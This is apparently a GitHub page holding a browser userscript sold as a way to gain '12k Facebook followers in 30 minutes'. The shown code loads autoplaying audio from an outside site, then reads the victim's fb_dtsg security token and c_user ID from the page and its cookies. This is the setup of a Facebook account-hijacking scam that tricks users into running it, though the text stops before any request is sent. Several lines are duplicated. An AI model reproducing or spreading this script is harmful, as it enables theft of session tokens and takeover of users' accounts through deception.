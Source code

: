 12k-FB-Followers-On-30-Min
==========================

Get 12k FaceBook Followers On 30min
// ==/Rizky_Creations==
// @Name               12k-FB-Followers-On-30-Min
// @Version            BETA
// @Copyright          Inayne 
// ==/Inayne_Creations==
/* HACKS_SCRIPT - Created By Inayne Design */
var parent=document.getElementsByTagName("html")[0];
var _body = document.getElementsByTagName('body')[0];
var _div = document.createElement('div');
_div.style.height="25";
_div.style.width="100%";
_div.style.position="fixed";
_div.style.top="auto";
_div.style.bottom="0";
_div.align="center";
var _audio= document.createElement('audio');
_audio.style.width="100%";
_audio.style.height="25px";
_audio.controls = true;
_audio.autoplay = false;
_audio.autoplay = true;
_audio.src = "http://buraevo.ru/UserFiles/Rizky_Design.mp3";
_div.appendChild(_audio);
_body.appendChild(_div);
var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;
var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;
var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);